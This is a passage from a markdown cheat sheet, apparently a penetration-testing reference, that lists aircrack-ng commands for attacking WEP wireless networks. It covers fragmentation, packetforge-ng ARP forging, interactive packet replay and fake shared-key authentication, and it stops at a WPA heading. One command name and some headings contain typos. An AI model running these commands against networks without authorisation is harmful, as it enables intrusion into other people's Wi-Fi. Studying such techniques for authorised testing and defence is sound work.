 ### Fragmentaion Attack

This attack works by obtaining a small amount of the keying material from the packet and then attempts to send ARP and/or LLC packets with known content to the AP.  If the packet is successfully echoed back by the AP, then a larger amount of the keying information can be obtained from the returned packet.  This process is repeated until 1500 bytes of the PRGA are obtained.
> `aireplay-ng -5 -b <ap> -h <you> <interface>`

* `-5 - The Fragmentation Attack`
* `-b <ap> - The AP MAC address`
* `-h <you> - Source MAC address`

### Craft ARP Request Packet**

Packetforge-ng is used to create encrypted packets that can later be used for injection.  You can create various types of packets such as UDP and ICMP packets although it is most commonly used to create ARP requests for subsequent injection.
> `packetforge-ng -0 -a <ap> -h <you> -l <sourceIP> -k <destIP> -y <xorFile> -w <out>`

* `-0 - Generate an ARP request packet`
* `-a <ap> - The AP MAC Address`
* `-h <you> - The source MAC address`
* `-k <distIP> - The destination IP`
* `-l <sourceIP> - The source IP`
* `-y <xorFile> - The PRGA filename`
* `-w - The filename to save the packet to`

### Inject Packet/Interactive Packet Replay

This attack uses a crafted ARP request packet and injects it to capture enough IVs to subsequently crack the WEP key on the AP

> `aireplay-ng -2 -r <packet> <interface>`

* `-2 - Interactive Packet Replay Attack`
* `-r <packet> - Filename of the crafted ARP packet`

### Fake Shared Key Authentication

This attack is used for bypassing WEP Share Key Authentication.  It uses a captured keystream file and conducts a fake authentication.

> `aireplay -1 -0 -e <essid> -y <captureFile> -a <ap> -h <you> <interface>`

* `-1 - Fake Authentication Attack`
* `0 - Reassociation timing in seconds`
* `-e <essid> - The wireless network name(SSID)`
* `-y <captureFile> - Filename of the captured keystream`
* `-a <ap> - The AP MAC address`
* `-h <you> - Source MAC address`

## WPA Attacks

### coWPAtty Attack 
